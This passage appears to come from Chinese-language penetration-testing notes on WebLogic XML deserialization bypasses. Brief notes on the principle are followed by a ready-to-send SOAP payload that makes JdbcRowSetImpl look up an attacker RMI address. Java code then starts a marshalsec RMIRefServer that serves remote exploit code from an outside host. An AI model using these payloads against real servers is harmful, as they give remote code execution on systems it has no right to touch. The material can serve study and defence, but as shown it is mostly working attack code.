 ```
  </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```
原理，未限制的使用class，可以生成java实例，EventData构造函数中存在2次反序列化操作。使用class绕过限制，并将函数调用等攻击语句放入string中，绕过检测

>  weblogic10

使用UnitOfWorkChangeSet类进行2次反序列化，传入参数为byte[]，且array可使用byte

>  通用

payload

>rmi类型

```
<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> <java><class><string>com.sun.rowset.JdbcRowSetImpl</string><void>
<property name="dataSourceName"><string>rmi://192.168.132.1:9998/aa</string></property><property name="autoCommit"><boolean>true</boolean></property>
</void></class>
</java>
 </work:WorkContext>
 </soapenv:Header> <soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```
```
import com.google.inject.internal.cglib.core.$CodeGenerationException;
import marshalsec.jndi.RMIRefServer;

import java.io.IOException;
import java.net.URL;

public class test {
    public static void main(String[] args) {
        try{
            URL url=new URL("http://192.168.132.1/#Exploit");
            RMIRefServer RMIRefServer=new RMIRefServer(9998,url);
            RMIRefServer.run();
        }
        catch(IOException e ){
            return;
        }
    }
}


```


>ClassPathXmlApplicationContext类

